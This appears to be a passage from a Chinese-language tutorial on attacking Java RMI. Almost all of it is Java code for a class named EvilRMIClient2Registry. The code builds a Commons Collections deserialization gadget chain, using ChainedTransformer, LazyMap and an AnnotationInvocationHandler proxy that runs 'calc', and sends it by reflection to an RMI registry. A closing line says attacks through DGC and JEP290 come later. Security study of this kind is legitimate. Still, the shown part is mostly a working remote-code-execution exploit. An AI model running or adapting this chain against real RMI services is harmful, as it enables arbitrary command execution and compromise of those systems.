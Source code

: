 ```java
                        new Class[]{String.class}, new Object[]{"calc"})
        });

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

        Constructor annotationInvocationHandler =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").
                        getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler annoHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, lazyMap);

        Map map = (Map) Proxy.
                newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annoHandler);

        InvocationHandler anotherHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, map);

        return anotherHandler;
    }

    public void callRemote(String name) throws RemoteException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9099);
        try {
            Field ref = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
            Field operations = registry.getClass().getDeclaredField("operations");
            Field interfaceHash = registry.getClass().getDeclaredField("interfaceHash");

            ref.setAccessible(true);
            operations.setAccessible(true);
            interfaceHash.setAccessible(true);
            RemoteRef refs = (RemoteRef) ref.get(registry);

            Method newCall = refs.getClass().getDeclaredMethod("newCall", RemoteObject.class, Operation[].class, int.class, long.class);
            Method invoke = refs.getClass().getDeclaredMethod("invoke", RemoteCall.class);

            StreamRemoteCall call = (StreamRemoteCall)newCall.invoke(refs, registry, operations.get(registry), 2, interfaceHash.get(registry));
            ObjectOutput out = call.getOutputStream();
            out.writeObject(create());

            invoke.invoke(refs, call);
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            EvilRMIClient2Registry rc = new EvilRMIClient2Registry();

            rc.callRemote("server");
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }
}

```
另一种方式是通过`DGC`进行攻击，这里留到后面结合`JEP290`进行介绍。